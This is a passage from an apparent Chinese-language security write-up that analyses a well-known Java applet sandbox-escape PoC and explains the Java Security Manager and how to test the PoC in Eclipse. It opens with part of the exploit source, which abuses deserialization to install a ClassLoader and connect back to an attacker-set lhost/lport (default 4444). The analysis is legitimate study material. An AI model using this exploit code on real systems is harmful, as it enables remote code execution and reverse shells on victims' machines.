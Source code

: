 ```java
   ObjectInputStream objectinputstream = new ObjectInputStream(new ByteArrayInputStream(StringToBytes(stringbuilder.toString())));
   Object aobj[] = (Object[])(Object[])objectinputstream.readObject();
   Help ahelp[] = (Help[])(Help[])aobj[0];
   AtomicReferenceArray atomicreferencearray = (AtomicReferenceArray)aobj[1];
   ClassLoader classloader = getClass().getClassLoader();
   atomicreferencearray.set(0, classloader);
   Help _tmp = ahelp[0];
   
   String data  = getParameter( "data" );
   String jar   = getParameter( "jar" );
   String lhost = getParameter( "lhost" );
   String lport = getParameter( "lport" ); 
   System.out.println("go go go");
   Help.doWork(ahelp[0], this, data, jar, lhost, ( lport == null ? 4444 : Integer.parseInt( lport ) ));
  }
  catch(Exception exception) { 
   System.out.println(exception.getMessage());
  }
 }
}

```

## 0x02

这个poc之所以出名估计和inbreak的七次打新浪云关系很大，当然这个poc也引发了一波网上的java挂马热潮。其实在一般应用中，大部分人都意识不到java存在一个Security Manager 的保护机制，在实际使用中，我们无论在写jsp还是java的本地软件时，很少有人会去配置这个Security Manager，(ps：我反正没见过….)，这个保护机制的原理其实很简单，搞java的都知道java以前搞过一个applet的东西，虽然现在已经没落了，但是它里面和这个保护机制关系就很大，试想下，applet是运行在客户的浏览器上的，如果applet里面实现了大量的敏感功能，岂不是用户的信息都被偷完了么，当然sun公司也想到了这点，所以Security Manager就正好可以对抗你，说白了Security Manager就是检查一个权限的白名单（java.policy），它规定了你这个java程序，只能在我白名单限制的权限内运行。而applet默认就存在这样一个非常严格权限的policy,这样applet程序就不要想在用户的机子上去调用exec之类的敏感函数了。

## 0x03

当然除了applet中用到了这个功能外，新浪云也用到了这个安全机制，很简单的原因他要保证他的java云只有适当的权限,最主要的是每个用户间要保持隔离，这里使用Security Manager将会是非常合适的技术(ps:虽然用的不好，被inbreak各种攻破…)

## 0x04

具体的Security Manager，网上很多，我就针对这个poc说下吧，首先测试这个poc，就需要和平时不太一样的方式，项目导入到eclipse后，运行时，需要开启Security Manager这个功能才可以，方法如下

VM arguments中就是开启命令，其中policy.txt即权限文件，放到你的main函数所在类的目录下面，而最后的msf.x.Test则是Main函数所在类的全路径，同样注意修改working directory。

## 0x05

这段poc中的java代码都非常好懂，但是在开始处通过一个

As数组来生成了一个关键的object数组，从而带来了后面的一连串关键操作，那么这段字符串是什么，为什么要这样写，就成为了很多人的疑问。
